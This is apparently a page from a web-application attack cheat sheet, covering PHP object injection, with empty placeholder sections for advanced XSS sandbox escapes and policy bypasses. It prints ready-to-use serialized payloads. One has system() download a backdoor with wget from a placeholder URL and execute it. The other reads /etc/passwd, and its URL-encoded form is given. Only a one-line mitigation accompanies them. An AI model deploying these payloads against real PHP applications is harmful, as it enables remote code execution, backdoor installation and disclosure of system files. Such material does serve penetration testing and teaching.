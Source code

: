 Example: Reverse Shell
```PHP
class PHPObjectInjection
{
   // CHANGE URL/FILENAME TO MATCH YOUR SETUP
   public $inject = "system('wget http://URL/backdoor.txt -O phpobjbackdoor.php && php phpobjbackdoor.php');";
}
// GENERATE ENCODED PAYLOAD
echo urlencode(serialize(new PHPObjectInjection));
```

Example: Local File Disclosure
```PHP
class PHPObjectInjection
{
   // CHANGE URL/FILENAME TO MATCH YOUR SETUP
   public $inject = "system('cat /etc/passwd');";
}

echo urlencode(serialize(new PHPObjectInjection));
//O%3A18%3A%22PHPObjectInjection%22%3A1%3A%7Bs%3A6%3A%22inject%22%3Bs%3A26%3A%22system%28%27cat+%2Fetc%2Fpasswd%27%29%3B%22%3B%7D
//'O:18:"PHPObjectInjection":1:{s:6:"inject";s:26:"system(\'cat+/etc/passwd\');";}'
```

**Mitigation**

Do not use unserialize() function with user-supplied input, use JSON functions instead i.e. `json_encode()` / `json_decode()`.


## Advanced XSS - Sandbox Escapes
---

**Summary**  

**Exploitation**  

**Mitigation**


## Advanced XSS - Same Origin Policy Bypass
---

**Summary**  

**Exploitation**  

**Mitigation**


## Advanced XSS - Content Security Policy Bypass
---  
